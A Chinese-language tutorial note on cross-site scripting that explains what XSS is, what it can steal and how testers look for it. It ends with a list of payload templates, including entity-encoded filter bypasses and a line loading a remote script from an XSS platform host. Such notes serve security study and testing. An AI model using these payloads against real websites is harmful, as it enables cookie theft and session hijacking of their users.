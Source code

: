 ## XSS的概念

CSS（Cross Site Scripting）--->>>XSS（跨站脚本攻击）

目的：让受害者js客户端运行攻击者编写的恶意js脚本。

目标：前端脚本解析引擎，比如浏览器的javascript解析引擎。

攻击的架构：B/S架构（browser<-->(http)server），少部分情况CS架构。

## XSS的危害

XSS能够产生的危害依赖于浏览器获取其他客户端脚本解析引擎的能力。

* 技术上

  窃取凭证（cookie）

  篡改DOM（篡改页面布局及内容）

  嵌入恶意的脚本代码

  发起恶意请求（Ajax）

  键盘记录

  窃取用户浏览历史

  获取客户端ip

  获取外网ip

  实现端口扫描

  获取剪贴板记录

  破解CSRF token限制

* 社会影响上

  无账号密码的情况下非法登录网站

  网络钓鱼

  网页蠕虫

  网页篡改

## XSS漏洞原理

前端用户提交的脚本代码被其他用户浏览器执行产生预期外的执行后果。（让自己提交的前端脚本代码被别人运行）。

找输入输出点   构造payload   尝试xss   如果报错   查看网页源码

html实体字符转义只有在标签属性内部才会被解析成有效的js代码,如果是被当做标签的内容,则只会解析成单纯的字符或字符串

## js执行模板

```html
<script>alert(1)</script>			//直接嵌入script
<script src=https://xsspt.com/></script>		//远程嵌入script
<input name=keyword value="" onmousemove="alert(1)">	//通过事件传入script字符串
<a hreF=javascript:alert(1)>xxx</a>  //超链接形式
或者<a href=javascr&#105;pt:alert(1)>xxxx</a>//html实体转义

<svg onload=alert(1)>
<svg><script>alert&#40;1)</script></svg>

<textarea>payload</textarea>    payload=xxx</textarea><script>alert(1)</script>
```
